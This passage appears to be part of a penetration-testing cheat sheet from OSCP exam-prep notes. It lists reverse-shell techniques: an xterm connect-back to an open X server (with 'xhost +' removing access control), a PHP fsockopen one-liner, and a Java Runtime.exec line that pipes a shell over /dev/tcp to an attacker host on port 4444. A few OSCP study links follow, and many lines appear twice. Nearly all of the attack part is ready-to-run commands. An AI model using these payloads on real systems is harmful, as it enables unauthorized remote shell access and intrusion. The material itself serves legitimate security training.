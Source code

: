 To catch incoming xterm, start an open X Server on your system (:1 – which listens on TCP port 6001). One way to do this is with Xnest: It is available on Ubuntu.

Xnest :1 # Note: The command starts with uppercase X

Xnest :1 # Note: The command starts with uppercase X

Then remember to authorise on your system the target IP to connect to you:
xterm -display 127.0.0.1:1 # Run this OUTSIDE the Xnest, another tab xhost +targetip # Run this INSIDE the spawned xterm on the open X Server

xterm -display 127.0.0.1:1 # Run this OUTSIDE the Xnest, another tab
xhost +targetip # Run this INSIDE the spawned xterm on the open X Server

If you want anyone to connect to this spawned xterm try:
xhost + # Run this INSIDE the spawned xterm on the open X Server
xhost + # Run this INSIDE the spawned xterm on the open X Server

Then on the target, assuming that xterm is installed, connect back to the open X Server on your system:
xterm -display attackerip:1
xterm -display attackerip:1

Or:
$ DISPLAY=attackerip:0 xterm
$ DISPLAY=attackerip:0 xterm

It will try to connect back to you, attackerip, on TCP port 6001.
Note that on Solaris xterm path is usually not within the PATH environment variable, you need to specify its filepath:

/usr/openwin/bin/xterm -display attackerip:1
/usr/openwin/bin/xterm -display attackerip:1


## PHP:
`php -r ‘$sock=fsockopen(“192.168.0.100″,4444);exec(“/bin/sh -i <&3 >&3 2>&3″);’`

## JAVA:
`r = Runtime.getRuntime()
p = r.exec([“/bin/bash”,”-c”,”exec 5<>/dev/tcp/192.168.0.100/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done”] as String[])
p.waitFor()`

-----

# OSCP Experience
Below are the blogs I found to help prepare me for the course

https://www.hacksplaining.com/

http://www.abatchy.com/search/label/OSCP%20Prep

http://www.techexams.net/forums/security-certifications/113355-list-recent-oscp-threads.html
